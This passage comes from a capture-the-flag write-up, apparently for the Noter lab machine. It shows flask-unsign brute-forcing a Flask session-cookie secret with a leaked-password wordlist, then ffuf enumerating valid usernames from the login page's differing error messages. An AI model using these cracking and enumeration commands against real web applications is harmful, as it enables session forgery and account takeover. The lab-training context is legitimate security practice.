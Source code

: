 ```
{
  "logged_in": true,
  "username": "thehated"
}
```

```
"c\u0017e,"
```

Knowing that this web server is running Python, it's possible that this is a Flask session cookie, as Python websites are often built with Flask.

A tool called flask-unsign will help us here. It deals with Flask cookies and will even try to brute force the signing secret. We can put our cookie in, and it cracks:

```
thehated@debian:~$ flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGhlaGF0ZWQifQ.YxdlLA._lcrtN-DCCQh4qMis3XX-5YZG_o" --no-literal-eval --wordlist ~/SecLists/Passwords/Leaked-Databases/rockyou.txt

[*] Session decodes to: {'logged_in': True, 'username': 'thehated'}  
[*] Starting brute-forcer with 8 threads..  
[+] Found secret key after 17152 attempts  
b'secret123'
```

But we don't have a username. Luckily, we can enumerate users at the sign in page. If I enter a wrong username:
![noterwronguser](https://th3hat3d.github.io/img/noterwronguser.png)

But if we enter a correct username:
![noterrightuser](https://th3hat3d.github.io/img/noterrightuser.png)

There is a different message for a valid user and wrong password.

We can enumerate valid users with ffuf and we find one pretty quick:
```
thehated@debian:~$ ffuf -u http://10.10.11.160:5000/login --data "username=FUZZ&password=Noter" -H 'Content-Type: application/x-www-form-urlencoded' -w ~/SecLists/Usernames/xato-net-10-million-usernames.txt -mr "Invalid login"

       /'___\  /'___\           /'___\          
      /\ \__/ /\ \__/  __  __  /\ \__/          
      \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\         
       \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/         
        \ \_\   \ \_\  \ \____/  \ \_\          
         \/_/    \/_/   \/___/    \/_/          
  
      v1.1.0  
________________________________________________  
  
:: Method           : POST  
:: URL              : http://10.10.11.160:5000/login  
:: Wordlist         : FUZZ: /home/thedoug/SecLists/Usernames/xato-net-10-million-usernames.txt  
:: Header           : Content-Type: application/x-www-form-urlencoded  
:: Data             : username=FUZZ&password=Noter  
:: Follow redirects : false  
:: Calibration      : false  
:: Timeout          : 10  
:: Threads          : 40  
:: Matcher          : Regexp: Invalid login  
________________________________________________  
  
blue                    [Status: 200, Size: 2027, Words: 432, Lines: 69]
```
